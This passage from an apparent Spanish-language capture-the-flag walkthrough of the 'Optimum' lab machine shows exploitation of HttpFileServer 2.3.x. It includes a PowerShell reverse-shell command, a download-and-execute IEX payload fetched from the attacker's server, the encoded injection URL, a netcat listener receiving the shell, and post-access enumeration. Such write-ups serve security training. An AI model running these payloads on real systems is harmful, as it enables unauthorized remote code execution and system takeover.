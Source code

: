```bash
Invoke-PowerShellTcp -Reverse -IPAddress <lhost> -Port <lport>
```

Ahora, compartimos un servidor HTTP con python en nuestro directorio en donde tenemos el archivo *ps1*:

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Por último nos ponemos en escucha a traves del puerto 443 (*lport*) y procedemos a ejecutar el exploit:

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [06/Sep/2021 22:35:19] "GET /PS.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [06/Sep/2021 22:35:19] "GET /PS.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [06/Sep/2021 22:35:19] "GET /PS.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [06/Sep/2021 22:35:19] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ python HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/PS.ps1')"
http://10.10.10.8:80/?search=%00{.+exec|c%3A%5Cwindows%5CSysNative%5CWindowsPowershell%5Cv1.0%5Cpowershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.10/PS.ps1%27%29.}
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49162
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
optimum\kostas
PS C:\Users\kostas\Desktop>
```

Ya tenemos acceso al sistema como el usuario **kostas** y podemos ver la flag *user.txt*. Procedemos a enumerar un poco el sistema para determinar como escalar privilegios.

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\Users\kostas\Desktop>
systeminfo                                                                                                                  [27/27]
                                                                 
Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server      
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User   
Registered Organization:                                         
```